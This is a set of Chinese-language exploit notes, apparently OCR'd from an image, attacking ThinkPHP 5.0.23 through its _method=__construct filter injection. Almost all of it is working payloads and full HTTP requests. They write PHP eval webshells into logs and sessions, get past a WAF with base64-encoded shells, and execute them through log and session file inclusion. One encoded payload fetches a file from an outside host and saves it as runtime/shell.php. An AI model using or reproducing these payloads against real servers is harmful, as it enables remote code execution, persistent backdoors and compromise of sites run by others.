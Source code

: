 ```angular2html
&filter[]=call_user_func
&server[]=phpinfo
&get[]=<?php eval($_POST[1337]); ?>


进阶过防火墙写日志
_method=__construct
&method=get
&filter[]=base64_decode
&filter[]=call_user_func
&server[]=phpinfo
&get[]=PD9waHAgZXZhbChiYXNlNjRfZGVjb2RlKCRfUE9TVFsxMzM3XSkpOyA/Pg==
 
备注:既然写日志需要过waf那么写马肯定，上面base64写入的一句话为<?php eval(base64_decode($_POST[1337])); ?>
因为小马也加了base64，所以我们传入b64加密后的代码：

1337=dmFyX2R1bXAoY29weSgiaHR0cDovL2NrOTk2LnRvcC9ubWEudHh0IiwiLi9ydW50aW1lL3NoZWxsLnBocCIpKTs=




日志包含
_method=__construct
&method=get
&filter[]=think\__include_file
&server[]=phpinfo
&get[]=../data/runtime/log/201901/21.log
&1337=phpinfo();
==============下面是过waf的
_method=__construct
&method=get
&filter[]=think\__include_file
&server[]=-1
&get[]=./runtime/log/202205/18.log
&1337=dmFyX2R1bXAoY29weSgiaHR0cDovL2NrOTk2LnRvcC9ubWEudHh0IiwiLi9ydW50aW1lL3NoZWxsLnBocCIpKTs=

常规操作2，session包含（同理上面可以使用各种加密数据包去绕过）

POST /tp5.0.23/public//?s=captcha HTTP/1.1
Host: 192.168.2.135
Cookie: PHPSESSID=ThisIsATestaaaaa
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.2.135/tp5.0.23/
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 101

_method=__construct&filter[]=think\Session::set&method=get&get[]=<?php eval($_POST['x'])?>&server[]=1

包含session
POST /tp5.0.23/public//?s=captcha HTTP/1.1
Host: 192.168.2.135
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:70.0) Gecko/20100101 Firefox/70.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Referer: http://192.168.2.135/tp5.0.23/
```